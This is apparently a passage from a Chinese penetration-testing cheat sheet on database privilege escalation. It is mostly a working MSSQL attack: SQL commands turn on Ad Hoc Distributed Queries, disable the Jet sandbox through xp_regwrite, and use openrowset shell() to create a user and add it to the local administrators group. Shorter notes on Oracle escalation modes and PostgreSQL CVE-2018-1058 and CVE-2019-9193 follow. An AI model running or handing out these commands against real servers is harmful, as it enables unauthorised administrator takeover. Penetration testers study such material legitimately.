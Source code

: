 3、沙盒提权

```
exec sp_configure 'show advanced options',1;reconfigure; 
-- 不开启的话在执行xp_regwrite会提示让我们开启，
exec sp_configure 'Ad Hoc Distributed Queries',1;reconfigure;
--关闭沙盒模式，如果一次执行全部代码有问题，先执行上面两句代码。
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0; 
--查询是否正常关闭，经过测试发现沙盒模式无论是开，还是关，都不会影响我们执行下面的语句。
exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines', 'SandBoxMode' 
--执行系统命令select * from openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net user margin margin /add")') 
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net localgroup administrators margin /add")')
沙盒模式SandBoxMode参数含义（默认是2）
`0`：在任何所有者中禁止启用安全模式
`1` ：为仅在允许范围内
`2` ：必须在access模式下
`3`：完全开启
openrowset是可以通过OLE DB访问SQL Server数据库，OLE DB是应用程序链接到SQL Server的的驱动程序。
--恢复配置
--exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1; 
--exec sp_configure 'Ad Hoc Distributed Queries',0;reconfigure; 
--exec sp_configure 'show advanced options',0;reconfigure;
```

## Oracle

https://github.com/jas502n/oracleshell

1、普通用户模式：

前提是拥有一个普通的oracle连接账号，不需要DBA权限，可提权至DBA，并以oracle实例运行的权限执行操作系统命令。

2、DBA用户模式：（自动化工具演示）

拥有DBA账号密码，可以省去自己手动创建存储过程的繁琐步骤，一键执行测试。

3、注入提升模式：（Sqlmap测试演示）

拥有一个oracle注入点，可以通过注入点直接执行系统命令，此种模式没有实现回显

## PostgreSQL

PostgreSQL是一款关系型数据库。其9.3到11版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。
提权利用的是漏洞：CVE-2018-1058 CVE-2019-9193 
连接-利用漏洞-执行-提权
参考：https://vulhub.org/#/environments/postgres/
修复方案：升级版本或打上补丁
-CVE-2018-1058
1、普通用户植入后门命令
